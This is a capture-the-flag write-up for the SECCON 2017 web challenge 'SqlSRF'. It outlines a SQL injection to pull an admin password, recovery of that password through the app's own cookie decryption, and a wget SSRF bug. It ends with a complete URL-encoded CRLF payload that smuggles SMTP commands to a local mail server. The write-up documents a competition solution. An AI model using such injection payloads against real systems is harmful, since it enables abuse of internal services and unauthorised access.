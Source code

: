 ## SqlSRF Web 400

Desc 

```
The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
http://sqlsrf.pwn.seccon.jp/sqlsrf/
```

At first, we can get source file from [index.cgi_backup20171129](http://sqlsrf.pwn.seccon.jp/sqlsrf/index.cgi_backup20171129).

And Here is a clear SQL injection, so we can use this injection get admin's password by this [code](https://github.com/LyleMi/CTF/blob/master/2017/seccon/sqlsrf/index.py).

But we need decrypt it, notice index.cgi will decrypt remember.

```pl
$user = &decrypt($q->cookie('remember')) if($user eq '' && $q->cookie('remember') ne '');
```

Then we can know password is ``Yes!Kusomon!!``.

At last, here is a wget ssrf [bug](https://lists.gnu.org/archive/html/bug-wget/2017-03/msg00018.html) which found by orange.

Finally, we can construct a payload like below: 
```
127.0.0.1%0d%0aHELO 127.0.0.1%0aMAIL FROM%3a%3cyoumail%40gmail.com%3e%0aRCPT TO%3a%3croot%3e%0aDATA%0aFrom%3a youmail%40gmail.com%0aTo%3a root%0aSubject%3a give me flag%0d%0a.%0d%0a%0aQUIT%0a:25
```

